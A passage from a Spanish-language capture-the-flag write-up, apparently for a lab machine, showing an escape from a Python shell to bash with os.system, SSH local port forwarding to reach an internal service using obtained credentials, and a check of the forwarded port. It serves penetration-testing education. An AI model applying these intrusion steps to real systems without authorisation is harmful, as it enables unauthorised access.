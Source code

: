 ```bash
Type "help", "copyright", "credits" or "license" for more information.
>>>
>>> import os
>>> os.system("/bin/bash")
daniel@hawk:~$ whoami
daniel
daniel@hawk:~$
```

Contamos con credenciales válidas de acceso por **ssh**; ahora en nuestra máquina de atacante, procedemos a realizar un *Local Port Forwarding*:

```bash
❯ ssh -L 4646:127.0.0.1:8082 daniel@10.10.10.102
daniel@10.10.10.102's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Sep 17 06:20:25 UTC 2021

  System load:  0.01              Processes:           173
  Usage of /:   47.5% of 7.32GB   Users logged in:     0
  Memory usage: 58%               IP address for eth0: 10.10.10.102
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

417 packages can be updated.
268 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Sep 17 06:14:21 2021 from 10.10.14.2
Python 3.6.5 (default, Apr  1 2018, 05:46:30) 
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>>
```

Vemos el puerto 4646 abierto en nuestra máquina:

```bash
❯ lsof -i | grep 4646
ssh       332076   root    4u  IPv6 790371      0t0  TCP localhost:4646 (LISTEN)
ssh       332076   root    5u  IPv4 790372      0t0  TCP localhost:4646 (LISTEN)
```
